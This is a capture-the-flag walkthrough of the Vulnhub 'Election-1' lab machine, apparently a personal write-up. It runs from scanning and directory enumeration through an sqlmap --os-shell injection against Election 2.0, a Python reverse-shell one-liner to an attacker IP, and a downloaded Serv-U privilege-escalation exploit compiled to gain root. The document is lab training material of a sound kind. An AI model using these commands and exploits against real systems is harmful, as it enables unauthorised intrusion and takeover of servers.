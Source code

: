 # Election-1

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Election-1/Untitled.png)

```bash
IP : 10.0.2.53
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Electron]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.53
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 14:19 IST
Nmap scan report for 10.0.2.53
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20d1ed84cc68a5a786f0dab8923fd967 (RSA)
|   256 7889b3a2751276922af98d27c108a7b9 (ECDSA)
|_  256 b8f4d661cf1690c5071899b07c70fdc0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:BA:FC:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%201.png)

Lets check for directory listing —>

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Electron]
└─$ feroxbuster -u http://10.0.2.53:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 2 -C 403,404 -x php,html,txt,log   

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.9.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.0.2.53:80/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 💢  Status Code Filters   │ [403, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.9.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💾  Output File           │ ferox_80.json
 💲  Extensions            │ [php, html, txt, log]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l        -w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      375l      964w    10918c http://10.0.2.53/
200      GET      375l      964w    10918c http://10.0.2.53/index.html
301      GET        9l       28w      311c http://10.0.2.53/javascript => http://10.0.2.53/javascript/
200      GET        4l        4w       30c http://10.0.2.53/robots.txt
301      GET        9l       28w      309c http://10.0.2.53/election => http://10.0.2.53/election/
301      GET        9l       28w      315c http://10.0.2.53/election/media => http://10.0.2.53/election/media/
301      GET        9l       28w      316c http://10.0.2.53/election/themes => http://10.0.2.53/election/themes/
301      GET        9l       28w      314c http://10.0.2.53/election/data => http://10.0.2.53/election/data/
301      GET        9l       28w      315c http://10.0.2.53/election/admin => http://10.0.2.53/election/admin/
301      GET        9l       28w      313c http://10.0.2.53/election/lib => http://10.0.2.53/election/lib/
301      GET        9l       28w      319c http://10.0.2.53/election/languages => http://10.0.2.53/election/languages/
301      GET        9l       28w      312c http://10.0.2.53/election/js => http://10.0.2.53/election/js/
200      GET        1l      215w     1935c http://10.0.2.53/election/card.php
301      GET        9l       28w      311c http://10.0.2.53/phpmyadmin => http://10.0.2.53/phpmyadmin/
200      GET       26l      359w    10531c http://10.0.2.53/phpmyadmin/index.php
301      GET        9l       28w      318c http://10.0.2.53/phpmyadmin/themes => http://10.0.2.53/phpmyadmin/themes/
200      GET       26l      359w    10532c http://10.0.2.53/phpmyadmin/themes.php
401      GET       14l       54w      456c http://10.0.2.53/phpmyadmin/setup
200      GET       26l      359w    10535c http://10.0.2.53/phpmyadmin/db_search.php
[####################] - 5m   5513650/5513650 0s      found:19      errors:970056 
[####################] - 4m   1102730/1102730 4038/s  http://10.0.2.53:80/ 
[####################] - 4m   1102730/1102730 3792/s  http://10.0.2.53/ 
[####################] - 5m   1102730/1102730 3427/s  http://10.0.2.53/javascript/ 
[####################] - 4m   1102730/1102730 4141/s  http://10.0.2.53/election/ 
[####################] - 3m   1102730/1102730 5284/s  http://10.0.2.53/phpmyadmin/
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%202.png)

Now lets check these files from directory traversal → `/card.php` file

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%203.png)

Now lets decode this text →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%204.png)

Now I got a credentails →

```bash
user:1234
pass:Zxc123!@#
```

Lets us this credentails to log into the `/election/admin` →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%205.png)

Now After recon on web I got an exploit about the election 2.0 →

[https://www.exploit-db.com/exploits/48122](https://www.exploit-db.com/exploits/48122)

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%206.png)

Now lets follow this path —>

Lets see for sqli →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%207.png)

Lets add a candidate and then Intercept the candidate option →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%208.png)

Now let’s save the request into a text file →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%209.png)

Now lets run sqlmap →

```bash
sqlmap -r request.txt --level=5 --risk=3 --os-shell -p id
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2010.png)

Now lets run this reverse shell code of python →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2011.png)

Now lets check the response with nc →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2012.png)

Now I got a reverse shell →

```bash
www-data@election:/var/www/html/election/admin/logs$ cat sys	
cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-05-10 15:40:18] Love has been logged in from Unknown IP on Firefox (Linux).
[2023-05-10 16:10:49] Love added candidate 'Test'.
www-data@election:/var/www/html/election/admin/logs$
```

Lets switch to love user →

```bash
love@election:~$ cd Desk	
cd Desktop/
love@election:~/Desktop$ ls
ls
user.txt
love@election:~/Desktop$  cat user.txt
 cat user.txt
cd38ac698c0d793a5236d01003f692b0
love@election:~/Desktop$
```

Now lets check the SUIDs files →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2013.png)

Now I looked into web for more recon purpose →

[https://www.exploit-db.com/exploits/47009](https://www.exploit-db.com/exploits/47009)

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2014.png)

Lets transfer it to the victim machine →

![Untitled](/Vulnhub-Files/img/Election-1/Untitled%2015.png)

```bash
love@election:/usr/local/Serv-U$ cd /tmp   
cd /tmp
love@election:/tmp$ ls
ls
love@election:/tmp$ wget https://www.exploit-db.com/download/47009
wget https://www.exploit-db.com/download/47009
--2023-05-10 17:08:36--  https://www.exploit-db.com/download/47009
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 619 [application/txt]
Saving to: ‘47009’

47009               100%[===================>]     619  --.-KB/s    in 0s      

2023-05-10 17:08:37 (109 MB/s) - ‘47009’ saved [619/619]

love@election:/tmp$ ls -al
ls -al
total 12
drwxrwxrwt  2 root root 4096 May 10 17:08 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-rw-r--  1 love love  619 May 10 17:08 47009
love@election:/tmp$ chmod +x 47009
chmod +x 47009
love@election:/tmp$ mv 47009 exploit.c
mv 47009 exploit.c
love@election:/tmp$ ls
ls
exploit.c
love@election:/tmp$ gcc exploit.c -o pe && ./pe
gcc exploit.c -o pe && ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
whoami
root
# /bin/bash -i
/bin/bash -i
root@election:/tmp# cd /root
cd /root
root@election:/root# ls -al
ls -al
total 44
drwx------  6 root root 4096 May 10 14:13 .
drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
-rw-------  1 root root   66 May 27  2020 .bash_history
drwx------  3 root root 4096 Apr  8  2020 .cache
drwx------  5 root root 4096 May 27  2020 .config
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Apr  9  2020 root.txt
-rw-r--r--  1 root root   66 Apr  2  2020 .selected_editor
-rw-r-----  1 root root    5 May 10 14:14 .vboxclient-display-svga.pid
root@election:/root# cat root.txt
cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6
root@election:/root#
```